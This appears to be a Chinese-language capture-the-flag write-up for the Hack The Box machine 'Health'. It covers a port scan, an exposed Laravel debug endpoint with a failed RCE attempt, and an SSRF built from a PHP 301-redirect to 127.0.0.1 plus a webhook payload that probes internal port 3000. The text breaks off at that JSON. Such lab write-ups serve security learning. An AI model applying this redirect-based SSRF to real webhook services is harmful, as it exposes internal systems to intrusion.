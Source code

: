 nmap扫描结果

![](https://img.mi3aka.eu.org/2022/09/6dace0d8ed2c0c625d480ad1fb847f7b.png)

---

1. laravel框架debug开启

```
http://health.htb/webhook
http://health.htb/_ignition/execute-solution
```

![](https://img.mi3aka.eu.org/2022/09/350f9c2f87a6255155b87963acf98956.png)

但是尝试使用`laravel debug rce`失败

![](https://img.mi3aka.eu.org/2022/09/7c7efbb69c2e097bc172d302bfd048d3.png)

没有从debug页面得到有效信息

2. 本地起一个监听

![](https://img.mi3aka.eu.org/2022/09/906aded3a2938277d85d7b2f4bd29169.png)

![](https://img.mi3aka.eu.org/2022/09/b7274cfcb431401a3caf02424d150a2c.png)

![](https://img.mi3aka.eu.org/2022/09/817c9a85b02256e6b2f5e504daf4392c.png)

body字段返回对`payload.txt`的读取内容

发现靶机会进行存活探测(先进行get,后进行post),应该可以利用这一点进行内网探测

利用301重定向,成功读取进行`ssrf`

```php
<?php
Header("HTTP/1.1 301 Moved Permanently");
Header("Location: http://127.0.0.1");
```

![](https://img.mi3aka.eu.org/2022/09/987fcc7892574f4d4987296fe14cc015.png)

对3000端口进行探测

```
{
	"webhookUrl": "http:\/\/10.10.16.18",
	"monitoredUrl": "http:\/\/10.10.16.18:8074\/redirect.php",
	"health": "up",
```